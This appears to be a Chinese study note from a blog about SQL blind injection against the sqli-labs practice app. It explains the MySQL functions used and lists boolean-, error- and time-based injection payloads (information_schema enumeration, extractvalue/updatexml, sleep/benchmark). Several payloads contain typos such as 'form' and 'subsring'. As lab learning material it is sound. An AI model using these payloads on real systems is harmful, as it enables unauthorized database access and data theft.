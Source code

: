 ```yaml
---
title: sql盲注
date: 2020-10-27 23:02:58
---
```


# SQL注入的基础

```
1.当在浏览器输入id值时，sql的语句会变成select .....from users where id=......LIMIT0,1
例：
http://127.0.0.1/sqli-labs/Less-1/?id=1会自动转化为select ....from users where id=’1’ LIMIT0,1
注意：（1）--+或#起注释作用，会将后面的所有语句删除掉
      （2）union的作用连接sql语句，若前一条语句为空，则显示后面语句，反之，则
           示前面一条语句
      （3）注入类型：id=’$id‘  id=$id   id=(‘$id’)   id=(“$id”)......
           闭合中的数字后面跟与类型无关的字符，将默认转换为前面的数字

```
# sql布尔盲注

## 基本使用函数

```
1. Mid（）函数
   此函数为截取字符串一部分，使用形式：Mid(column_name,start[,length])
2. substr()函数
   Substr()和substring()函数实现的功能是一样的，均为截取字符串。使用形式如下：
   string substring(string, start, length)
   string substr(string, start, length)
   注意：参数描述同mid()函数，string为第一个参数为要处理的字符串，start为开始位置，length为截取的长度。
3. Left()函数
   Left()得到字符串左部指定个数的字符，使用形式：Left ( string, n )
   string为要截取的字符串，n为长度
4. ORD（）函数，此函数为返回的第一个字符串的ascii码
   如：ORD(MID(DATABASE(),1,1))>114意为检测database（）第一位ascii码
   否大于114，也即是“r”
5. ascii()函数
   将某个字符转换为ascii码，与ORD函数相似
6. regexp 正则注入
   正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html
   用法介绍：select user() regexp '^[a-z]';
   Explain：正则表达式的用法，user()结果为 root，regexp 为匹配 root 的正则表达式。
   第二位可以用 select user() regexp '^ro'来进行。
7. like匹配注入
   和regexp正则注入类似，mysql注入的时候我们可以用like进行匹配
   用法：select user() like ‘ro%’
8. sleep()函数
   将程序挂起一段时间 ，n为n秒
9. if（）语句
    判断语句，如果第一个语句正确就执行第二个语句，如果错误就执行第三个语句
10. length(string)
    字符串的长度，string为要处理的字符串
11. database()是数据库，table()是数据表
12. CAST(str AS 目标数据类型）
            将目标str转化为目标数据类型
13. IFNULL(expr1,expr2)
            如果expr1不是null,IFNULL()返回expr1,否则它返回的是expr2，且0x20为空
```
## 做题思路

```
1. 先爆数据库，如：
   ?id=1’and length(database()) --+    看当前数据库的长度
   ?id=1’and left(database(),1) --+    看当前数据库第一个首字母
2. 再爆数据表，如：
   ?id=1’and ascii(substr((select table_name for information_schema.tables where tables_schema=database() LIMIT    0,1),1,1))=(<或>)113 --+
   以此类推，得出所有表
3. 再判断表中的列名是否有....列,如：
   ?Id=1’and 1=(select 1 from information_schema.columns where table_name=’users’and column_name regexp   ‘^username’LIMIT 0,1) --+
4. 看表中的列的内容，如；
   ?Id=1’and ORD(MID((select IFNULL(CAST(username AS CHAR),0x20）form security.users order by ip LIMIT       0,1),1,1))=68 --+
```
_


# 基于报错的sql盲注
```
1.函数
     Count----------------------用于计数
     Floor----------------------取得0或1，进行数据的重复
     Group by-------------------对相同数据进行分组（相同的一组）
     Rand()---------------------一个随机函数，但使用一个固定的随机数种子0后，成为固定的伪随机序列
2.报错类型
（1）平常报错注入
     ?id=1’union select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,floor(rand(0)*2))a form      information_schema.columns group by a--+
（2）利用double数值类型超出范围进行报错注入
     ?Id=1’union select (exp(~(select * from(select user())a))),2,3 --+
（3）利用bigint溢出进行报错注入
     ?Id=1’union select (!(select * from(select user())x) - ~0),2,3 --+
（4）xpath函数报错注入
     ?Id=1’and extractvalue(1,concat(0x7e,(select @@version),0x7e)) --+
     ?Id=1’and updatexml(1,concat(0x7e,(select @@verson),0x7e),1) --+
（5）利用数据重复性报错注入
     ?Id=1’union select 1,2,3 from (select NAME CONST(version(),1),NAME CONST(version(),1))x --+
```

# 基于时间的sql盲注
1. 函数
     Sleep(N)-------------可以让语句运行N秒
     Benchmark()-----------一个mysql的内置函数，主要用来测试一些函数执行速度，且带有两个参数，一个为执行次数，一     个是执行函数或表达式 
2. 延时注入类型
   （1）利用sleep()函数进行注入
     ?Id=1’and if(ascii(substr(database(),1,1))=115,1,sleep(5)) --+
   （2）利用benchmark()进行延时注入
     ?Id=1’union select (if(subsring(current,1,1)=char(115),benchmark(50000,encode(‘MSG’,’by 5      seconds    ’)),null)),2,3 from(select database() as current) as tb1 --+